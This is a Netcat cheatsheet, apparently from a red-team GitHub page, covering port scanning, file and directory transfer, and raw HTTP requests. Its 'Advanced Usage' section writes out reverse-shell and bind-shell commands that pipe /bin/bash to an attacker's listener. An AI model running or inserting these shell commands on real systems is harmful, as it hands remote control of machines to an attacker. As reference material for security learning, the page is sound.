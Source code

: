 #Tool #RED #TTNet 
# Netcat Cheatsheet 🐾📡

Welcome to the **Netcat Cheatsheet**! Netcat (often called the “Swiss Army knife” of networking) is a versatile tool for network debugging, testing, and exploration. This guide will help you master Netcat like a networking wizard. 🧙‍♂️✨

---

## 🌟 Most Commonly Used Command
```bash
nc -nvlp *.*.*.*
```
Set up a listener with numeric IPs, verbose output, and a specified port.

---

## 🌟 What is Netcat?
**Netcat (nc)** is a powerful networking utility for reading and writing data across networks. It's used for:
- Debugging and testing network connections.
- File transfers.
- Port scanning.
- Setting up reverse shells and backdoors.

### 🛠 Features:
- Connect to and listen on TCP/UDP ports.
- Transfer files between systems.
- Perform port scanning.
- Support for scripting and automation.

---

## 🧰 Common Commands

### 🔍 Basic Port Scanning
```bash
nc -zv 192.168.1.1 20-80
```
Scan ports 20 to 80 on a target host.

### 📡 Establish a TCP Connection
```bash
nc 192.168.1.1 80
```
Connect to port 80 on the target host.

### 🛠 Listen for Incoming Connections
```bash
nc -l -p 1234
```
Set up a listener on port 1234.

### 🔄 File Transfer (Send)
```bash
nc -w 3 192.168.1.2 1234 < file.txt
```
Send a file to a listener.

### 🔄 File Transfer (Receive)
```bash
nc -l -p 1234 > file.txt
```
Receive a file sent to a listener.

---

## ⚙️ Advanced Usage

### 🌐 Create a Reverse Shell
#### Listener (on Attacker Machine):
```bash
nc -l -p 4444
```
#### Target Machine:
```bash
nc 192.168.1.10 4444 -e /bin/bash
```
Establish a reverse shell to the attacker machine.

### 🖥️ Create a Bind Shell
#### Target Machine:
```bash
nc -l -p 5555 -e /bin/bash
```
#### Attacker Machine:
```bash
nc 192.168.1.20 5555
```
Connect to the bind shell on the target machine.

### 📜 HTTP Requests
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Manually send an HTTP GET request to a web server.

### 🛡️ Transfer Directories
#### On Sending Machine:
```bash
tar -czf - /path/to/dir | nc -w 3 192.168.1.2 1234
```
#### On Receiving Machine:
```bash
nc -l -p 1234 | tar -xzf -
```
Transfer an entire directory over the network.

---

## 📋 Handy Options

| Option        | Description                                     |
|---------------|-------------------------------------------------|
| `-l`          | Listen for incoming connections                 |
| `-p`          | Specify the local port to use                  |
| `-z`          | Perform a port scan without sending data       |
| `-v`          | Enable verbose mode                            |
| `-e`          | Execute a command after connection             |
| `-w`          | Set a timeout for connections (in seconds)     |
| `-u`          | Use UDP instead of TCP                         |

---

## 🌐 Example Scenarios

### Scenario 1: Simple Chat Between Two Machines
#### Machine A:
```bash
nc -l -p 5678
```
#### Machine B:
```bash
nc 192.168.1.5 5678
```

### Scenario 2: Copy Files Across Hosts
#### Sender:
```bash
nc -w 3 192.168.1.2 1234 < secret.zip
```
#### Receiver:
```bash
nc -l -p 1234 > secret.zip
```

### Scenario 3: Basic TCP Port Scan
```bash
nc -zv 192.168.1.10 20-100
```

---

## 🚀 Pro Tips

### 1️⃣ Combine with Scripts
Use Netcat in scripts to automate testing and data collection.

### 2️⃣ Use with Sudo
Elevated permissions may be required for specific ports and operations.

### 3️⃣ Secure Connections
Netcat itself does not encrypt connections. For secure alternatives, consider tools like **Socat** or SSH.

---

## 📚 References
- [Netcat Official Documentation](https://manpages.ubuntu.com/manpages/bionic/man1/nc.1.html)
- [Network Basics Guide](https://en.wikipedia.org/wiki/Network_socket)

---

✨ **Copy, paste, and become a Netcat ninja!** ✨
